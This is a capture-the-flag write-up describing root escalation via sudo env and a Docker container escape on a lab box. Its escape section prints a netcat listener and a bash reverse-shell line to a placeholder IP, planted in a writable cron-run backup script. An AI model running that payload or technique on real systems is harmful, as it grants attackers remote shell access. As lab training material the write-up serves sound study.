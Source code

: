 ![Revshell](https://i.imgur.com/0Zh5SH7.png)

The first flag is located in the directory where your shell will be spawned. The second one is in the parent directory.

## Privelege Escalation
To figure out a privesc, the fastest way is to use the `sudo -l` command. This command is not perfect though: it won't work if your current user isn't in sudoers and it might find nothing.

![sudo -l](https://i.imgur.com/GnqVyJ1.png)

Fortunately for us, this command returned good results. The last line says our current user can run `env` as root without the need of a password. Using [GTFOBins](https://gtfobins.github.io/), in the sudo category of the `env` command, we can find the right command to escalate our privileges to **root**.

![Privesc](https://i.imgur.com/F1sFjzU.png)

We are now **root**! If we now go in the `/root` directory, we can find the third flag. The only problem is, we miss one flag... where could it be?

After a bit of research, we can find a good hint that we are currently stuck inside a Docker container: the hostname (which can be found using the `hostname` command) is not the name of the box as usual. We need to get out of this container to get the 4th flag.

![Hostname before](https://i.imgur.com/PKLSGWl.png)

## Escaping the Container
We now need to find something that could help us get out of our container. I first searched for common directories until I stumbled in `/opt`. In that directory, we can find a folder named `backups`. In it, there are two files: a *backup.tar* file and a *backup.sh* script which runs about every minute to pack a backup into backup.tar. 

![Backup](https://i.imgur.com/0fsSNV0.png)

The problem is that we can edit that file, which makes it vulnerable. If we edit it to insert a reverse shell, we could get access to the machine behind the container, in other words, escaping the container. Let's create a netcat listener using `nc -lvnp 1234` (or any other port). Then, let's replace the *backup.sh* script with a reverse shell as shown below.

```bash
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/1234 0>&1
```

If we wait about 1 minute (it could take a bit more) we get a shell on our listener! We have now escaped the container. The final flag is under `/root`.

![Hostname after](https://i.imgur.com/kee2uwo.png)
